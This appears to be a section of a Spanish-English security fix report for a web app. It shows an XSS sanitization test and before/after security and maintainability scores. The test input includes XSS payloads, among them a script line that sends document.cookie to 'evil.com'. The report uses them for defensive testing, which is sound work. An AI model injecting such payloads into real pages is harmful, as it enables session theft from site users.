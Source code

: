 ### XSS Prevention Test ✅

**Input:**
```javascript
notes: `<img src=x onerror=alert('XSS')>
        <script>fetch('https://evil.com?cookie='+document.cookie)</script>
        javascript:void(alert(1))
        <iframe src="javascript:alert('XSS')"></iframe>`
```

**Output Sanitizado:**
```
"img src=x onerroralert('XSS') scriptfetch('https://evil.com?cookie='+document.cookie)/script void(alert(1)) iframe src=alert('XSS')/iframe"
```

**Resultado:**
- ✅ Todos los tags removidos
- ✅ Event handlers removidos
- ✅ `javascript:` protocol removido
- ✅ Texto seguro para display

---

## Impact Assessment

### Antes de la solución 🔴

**Security Score:** 60/100
- ❌ XSS vulnerability
- ❌ No input validation
- ⚠️ Basic error handling

**Maintainability Score:** 70/100
- ❌ Debugging difícil
- ❌ Logs genéricos
- ⚠️ Sin contexto

---

### Después de la solución ✅

**Security Score:** 95/100
- ✅ XSS prevention (double sanitization)
- ✅ Input validation
- ✅ Max length enforcement
- ⚠️ -5 puntos: Falta auth (Phase 6)

**Maintainability Score:** 95/100
- ✅ Structured logging
- ✅ Contexto completo
- ✅ Type-safe error handling
- ✅ Success tracking
- ⚠️ -5 puntos: Podría usar monitoring service

---